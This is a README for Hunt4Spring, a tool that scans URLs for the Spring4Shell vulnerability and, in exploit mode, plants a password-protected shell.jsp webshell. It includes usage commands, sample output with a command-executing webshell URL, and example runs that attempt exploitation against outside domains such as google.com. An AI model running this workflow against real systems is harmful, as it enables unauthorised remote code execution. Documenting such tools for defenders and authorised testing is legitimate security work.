 # Hunt4Spring

Hunt4Spring helps with identifying as well as exploiting URLs which are potentially vulnerable to [CVE-2022-22965](https://tanzu.vmware.com/security/cve-2022-22965) aka Spring4Shell.

**Video Demo:** https://www.youtube.com/watch?v=JnAnXDFKkF0

## Usage

```
 $ ./hunt4spring -h

  _    _             _   _  _   _____            _             
 | |  | |           | | | || | / ____|          (_)            
 | |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
 |  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
 | |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
 |_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                     | |                  __/ |
                                     |_|                 |___/ 



 [+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
 [+] Author: Umair Nehri (RHL Research Team)
 [+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

 Usage of ./hunt4spring:
 -exploit
         Turns on exploitation mode.
 -file string
         Specify a file containing a list of target URLs.
 -outfile string
         Output file name to store results. (default "hunt4spring.json")
 -url string
         Specify a single target URL.
```

### Flags
In order to run Hunt4Spring, users have two options available. Either they can provide a single URL using the **-url** flag or provide with bulk URLs through a file by using the **-file** flag. They can even specify the name of the file where they would like to store the output in JSON format by using the **-outfile** flag. [By default the output gets stored in hunt4spring.json]

```sh
$ ./hunt4spring -url http://127.0.0.1:8080/ -exploit -outfile op.json

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:40:04 Checking: http://127.0.0.1:8080/
2022/04/01 17:40:04 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:40:04 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:40:06 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://127.0.0.1:8080/ | YES                       |
+------------------------+---------------------------+
```

### Usage Modes 
#### Default Mode
In the default mode, user doesn't has to specify any additional flags and this mode would be used by the tool by default. The tool will look for all URL/URLs which are potentially vulnerable to this vulnerability.

We do not have to provide any additional flags in this case.

```sh
$ ./hunt4spring -file test.txt

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:42:20 Checking: http://google.com/

2022/04/01 17:42:21 Checking: https://epic.com/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8082/

2022/04/01 17:42:26 Checking: http://127.0.0.1:8080/
2022/04/01 17:42:26 http://127.0.0.1:8080/ [Seems to be vulnerable!]

2022/04/01 17:42:26 Checking: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

#### Exploit Mode
In the exploit mode, the tool would not just scan the URL/URLs but would even try to exploit them by placing a webshell in the target's root directory. The name of the webshell would be **shell.jsp** having the password **hunt4spring**.

In order to enable exploit mode, we have to provide an addtional flag (`-exploit`) along with the normal input flags:
```sh
$ ./hunt4spring -file test.txt -exploit

 _    _             _   _  _   _____            _             
| |  | |           | | | || | / ____|          (_)            
| |__| |_   _ _ __ | |_| || || (___  _ __  _ __ _ _ __   __ _ 
|  __  | | | | '_ \| __|__   _\___ \| '_ \| '__| | '_ \ / _  |
| |  | | |_| | | | | |_   | | ____) | |_) | |  | | | | | (_| |
|_|  |_|\__,_|_| |_|\__|  |_||_____/| .__/|_|  |_|_| |_|\__, |
                                    | |                  __/ |
                                    |_|                 |___/ 
                                                                                                                                                                                        


[+] Hunt4Spring by RedHunt Labs - A Modern Attack Surface (ASM) Management Company
[+] Author: Umair Nehri (RHL Research Team)
[+] Continuously Track Your Attack Surface using https://redhuntlabs.com/nvadr. 

2022/04/01 17:44:03 Checking: http://google.com/
2022/04/01 17:44:04 Trying to exploit: http://google.com/

2022/04/01 17:44:06 Checking: https://epic.com/
2022/04/01 17:44:11 Trying to exploit: https://epic.com/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8082/
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8082/

2022/04/01 17:44:17 Checking: http://127.0.0.1:8080/
2022/04/01 17:44:17 http://127.0.0.1:8080/ [Seems to be vulnerable!]
2022/04/01 17:44:17 Trying to exploit: http://127.0.0.1:8080/
2022/04/01 17:44:20 Shell was successfully uploaded! Address: http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring&cmd=whoami

2022/04/01 17:44:20 Checking: http://127.0.0.1/
2022/04/01 17:44:20 Trying to exploit: http://127.0.0.1/

+------------------------+---------------------------+
|          HOST          | VULNERABILITY POSSIBILITY |
+------------------------+---------------------------+
| http://google.com/     | NO                        |
| https://epic.com/      | NO                        |
| http://127.0.0.1:8082/ | NO                        |
| http://127.0.0.1:8080/ | YES                       |
| http://127.0.0.1/      | NO                        |
+------------------------+---------------------------+
```

### Output
The output file saves the data in JSON format like below:
```json
[
    {
        "host": "http://127.0.0.1:8080/",
        "is_vulnerable": true,
        "exploit_completed": true,
        "payload_path": "http://127.0.0.1:8080/shell.jsp?pwd=hunt4spring\u0026cmd=whoami"
    }
]
```

### Setting up a Test Environment
If you'd like to test out Spring4Hunt or the Spring4Shell vulnerability in general, then you can refer to this docker image: [vulfocus/spring-core-rce-2022-03-29](https://hub.docker.com/r/vulfocus/spring-core-rce-2022-03-29).

The installation process is quite simple in this case as well, you just have to run the below command: 
```
docker run -p 9090:9090 vulfocus/spring-core-rce-2022-03-29
```
The app should now be available at `http://localhost:9090`.

### More details around Spring4Shell
We have covered more details around Spring4Shell Vulnerability in our <a href="#">Blog</a>.

### License & Version
The tool is licensed under the MIT license. See [LICENSE](LICENSE).
Currently the tool is at v0.1.

### Credits
The Research Team at [RedHunt Labs](https://redhuntlabs.com) would like to thank [@vx-underground](https://www.vx-underground.org/) for the initial PoC.

##### **[`To know more about our Attack Surface Management platform, check out NVADR.`](https://redhuntlabs.com/nvadr)**

